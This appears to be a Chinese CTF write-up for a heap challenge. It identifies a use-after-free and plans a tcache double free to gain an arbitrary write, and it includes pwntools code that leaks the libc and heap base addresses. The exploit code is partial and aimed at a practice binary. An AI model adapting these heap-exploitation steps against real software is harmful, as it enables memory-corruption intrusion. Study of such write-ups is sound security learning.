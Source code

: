 ### add

当 whattodo 为 1 时，执行 add 函数：

![](https://bbs.kanxue.com/upload/attach/202406/912098_F2A9RTT68YXEQKV.jpg)

add 函数最多申请 9 个 0x40 大小的 chunk。

### delete

当 whattodo 为 2 时，执行 delete 函数：

![](https://bbs.kanxue.com/upload/attach/202406/912098_69QU6W2KATM4J23.jpg)

最多可以使用 10 次 delete 函数，存在 UAF 漏洞。

### show

当 whattodo 为 3 时，执行 show：

![](https://bbs.kanxue.com/upload/attach/202406/912098_PVZEDSGB8R7V3WH.jpg)

可以调用 3 次该函数，并且如果设置 whatsthis 为 \ xff，会先调用 seccomp_load。(显示不是我们想要的)

如果设置 size 为 0x30，会调用 strtok。也就是说题目提供了两个进入 strtok 的机会，这里可疑，可能有利用点。

利用思路
----

程序保护全开，能够 free10 次，填满 tcache 后，剩余 3 次 chunk 可以完成一次 double free，即构造一次任意地址写。

具体做法：

初始状态 bin 中有剩余的 small bin，申请一个 chunk 会在 small bin 切割并残留 fd 指针指向 libc，直接打印可以泄露 libc 地址：

```
# leak libc
add_chunk(0, b'a')
show_chunk(0)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x21ac61
libc.address = libc_base
success("libc_base = " + hex(libc_base))

```

然后填满 tcache，泄露 heap 地址：

```
# leak heap
add_chunk(1, b'b')  # clear tcache
for i in range(7 + 2):
    add_chunk(i, b'tcache')
 
for i in range(7):
    delete_chunk(6 - i)
 
show_chunk(6)
p.recvuntil(b'Content:')
heap_base = u64(p.recv(5).ljust(8, b'\x00')) << 12
heap_base = heap_base - 0x5000
success("heap_base = " + hex(heap_base))

```
